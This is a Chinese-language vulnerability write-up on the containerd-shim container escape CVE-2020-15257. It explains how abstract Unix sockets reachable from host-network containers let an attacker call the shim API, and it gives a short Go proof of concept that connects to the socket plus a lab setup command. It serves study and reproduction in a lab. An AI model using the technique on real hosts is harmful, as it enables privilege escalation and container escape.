



# 漏洞描述

在未指定用户、且与host共享net namespace的容器中，攻击者可以通过抽象namespace的unix套接字

# 漏洞详情

## 背景知识
### Docker架构



### abstract namespace Unix domain socket

在一道namespace相关的CTF中有利用抽象命名空间的Unix套接字传递文件描述符。

系统中可以通过`netstat -xlp`查看存在的unix套接字



抽象namespace的unix套接字路径总是空字符（`\0`）开始，用占位符@表示。这些套接字的访问不受权限检查的限制，权限检查由监听这些套接字的进程负责。

## 漏洞成因
Docker中对于这些套接字的检查仅包含，发起连接的用户是不是和运行containerd-shim的用户相同。

上图中形如`@/containerd-shim/<id>.sock@`则为系统中docker容器的套接字。如果能和containerd-shim进行通信，进而调用其API，则可以控制容器。

由于没有进行net namespace的隔离，unix socket可以被容器内部访问到，所以可用containerd shim API进行提权操作。



（Create()和Start()是例外）

向API提供所需的特权容器配置，最终达到绕过Capabilities、namespace、AppArmor和Seccomp，实现逃逸、提权。


# 漏洞利用

## POC核心代码

```go
func exp(sock string) bool {
    sock = strings.Replace(sock, "@", "", -1)
    conn, err := net.Dial("unix", "\x00"+sock)
    if err != nil {
        log.Println(err)
        return false
    }

    client := ttrpc.NewClient(conn)
    shimClient := NewShimClient(client)
    ctx := context.Background()
    info, err := shimClient.ShimInfo(ctx, &types.Empty{})
    if err != nil {
        log.Println("rpc error:", err)
        return false
    }

    log.Println("shim pid:", info.ShimPid)
    return true
}
```
创建shim Client通过grpc(ttrpc)协议调用API，这里调用shimClient.ShimInfo作为POC是因为这个接口简单，不需要传参，可以通过返回值进一步确认该socket可用。


## 环境搭建

```bash
sudo ./metarget cnv install cve-2020-15257
```


## Exploit

利用渗透测试工具CDK进行漏洞利用：

